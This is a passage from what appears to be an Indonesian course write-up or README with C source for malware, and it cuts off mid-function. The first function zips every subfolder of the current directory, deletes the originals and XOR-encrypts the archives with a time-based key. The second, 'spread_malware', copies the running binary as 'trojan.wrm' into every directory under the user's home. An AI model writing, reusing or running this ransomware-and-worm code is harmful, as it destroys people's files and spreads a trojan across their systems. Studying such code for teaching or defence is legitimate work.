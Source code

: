     DIR *dir = opendir(cwd);
    struct dirent *entry;
    if (!dir) return;

    time_t t = time(NULL);
    uint8_t key = (uint8_t)(t % 256);

    while ((entry = readdir(dir))) {
        if (entry->d_type == DT_DIR) {
            if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
                continue;

            char folderpath[1024];
            snprintf(folderpath, sizeof(folderpath), "%s/%s", cwd, entry->d_name);

            char *zipfile = zip_folder(folderpath);
            if (zipfile) {
                delete_folder(folderpath);
                xor_file(zipfile, key);
                free(zipfile);
            }
        }
    }
    closedir(dir);
     }
</pre>
7. Function spread malware untuk menyebarkan file malware dan trojan keseluruh direktori didalm direktori home
<pre>
     void spread_malware() {
    const char *home = getenv("HOME");
    if (!home) return;

    DIR *dir = opendir(home);
    struct dirent *entry;

    char self_path[1024];
    ssize_t len = readlink("/proc/self/exe", self_path, sizeof(self_path) - 1);
    if (len == -1) return;
    self_path[len] = '\0';

    if (!dir) return;
    while ((entry = readdir(dir))) {
        if (entry->d_type != DT_DIR) continue;
        if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0) continue;

        char target_dir[1024];
        snprintf(target_dir, sizeof(target_dir), "%s/%s", home, entry->d_name);

        char target_path[1024];
        snprintf(target_path, sizeof(target_path), "%s/trojan.wrm", target_dir);

        FILE *src = fopen(self_path, "rb");
        FILE *dst = fopen(target_path, "wb");
        if (!src || !dst) {
            if (src) fclose(src);
            if (dst) fclose(dst);
            continue;
        }

